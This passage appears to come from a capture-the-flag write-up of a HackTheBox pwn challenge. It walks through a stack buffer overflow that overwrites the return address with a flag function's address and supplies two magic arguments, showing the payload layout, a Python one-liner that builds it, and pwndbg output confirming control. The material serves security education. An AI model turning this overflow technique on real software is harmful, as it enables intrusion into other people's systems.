 Now, looking at the EBP register, observe the value at $ebp+0x4\:

{% highlight bash %}
pwndbg> x/4x $ebp  
0xffffd01c\:     0x41414141      0x42424242      0xffffd000      0xffffd0fc
{% endhighlight %}

Thus, $ebp+0x8 and $ebp+0xc can now successfully be controlled by appending 0xdeadbeef and 0xc0ded00d in little endian byte format (\\xef\\xbe\\xad\\xde and \\x0d\\xd0\\xde\\xc0 respectively).

Exploit
-------

Therefore, the final exploit will take the following form\:

JUNK_BYTE*188 + ADDRESS_OF_FLAG + JUNK2_BYTE*4 + DEADBEEF + C0DED00D

Where\:

JUNK_BYTE = A

JUNK2_BYTE = B

ADDRESS_OF_FLAG = \\xe2\\x91\\x04\\x08

DEADBEEF = \\xef\\xbe\\xad\\xde

C0DED00D = \\x0d\\xd0\\xde\\xc0

Piping the contents of eip_flag into the binary and checking the EBP register, it can be seen that ebp+0x8 and ebp+0xc were successfully controlled.

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $python -c "print 'A'*188 + '\\xe2\\x91\\x04\\x08'+'BBBB'+'\\xef\\xbe\\xad\\xde'+'\\x0d\\xd0\\xde\\xc0'" > eip_flag  
  
pwndbg> r < eip_flag                                                                                                                                                  [4/579]  
Starting program\: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_flag                                                                                
You know who are 0xDiablos\:                                                                                                                                                    
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
AAAAAAAAAAAAAABBBBﾭ                                                                                                                                                            
  
Breakpoint 1, 0x08049246 in flag ()        LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA                                      
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0                                  EBX  0x804c000 (_GLOBAL_OFFSET_TABLE_) --▸ 0x804bf10 (_DYNAMIC) ◂-- add    dword ptr [eax], eax  
ECX  0x0                                  EDX  0xfbad2498                          EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */EBP  0xffffd01c ◂-- 0x41414141 ('AAAA')    ESP  0xffffcfc4 ◂-- 0x41414141 ('AAAA')    EIP  0x8049246 (flag+100) ◂-- cmp    dword ptr [ebp + 8], 0xdeadbeef                    
───────────────────────────────────[ DISASM ]───────────────────────────────────        
► 0x8049246 <flag+100>    cmp    dword ptr [ebp + 8], 0xdeadbeef                      
  0x804924d <flag+107>    jne    flag+135 <flag+135>                                  
                                           
  0x804924f <flag+109>    cmp    dword ptr [ebp + 0xc], 0xc0ded00d                    
  0x8049256 <flag+116>    jne    flag+138 <flag+138>                                  
                                           
  0x8049258 <flag+118>    sub    esp, 0xc                                              
  0x804925b <flag+121>    lea    eax, [ebp - 0x4c]                                    
  0x804925e <flag+124>    push   eax       0x804925f <flag+125>    call   printf@plt <printf@plt>                              
                                           
  0x8049264 <flag+130>    add    esp, 0x10                                            
  0x8049267 <flag+133>    jmp    flag+139 <flag+139>                                  
                                           
  0x8049269 <flag+135>    nop             ───────────────────────────────────[ STACK ]────────────────────────────────────        
00\:0000│ esp 0xffffcfc4 ◂-- 0x41414141 ('AAAA')                                          
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────        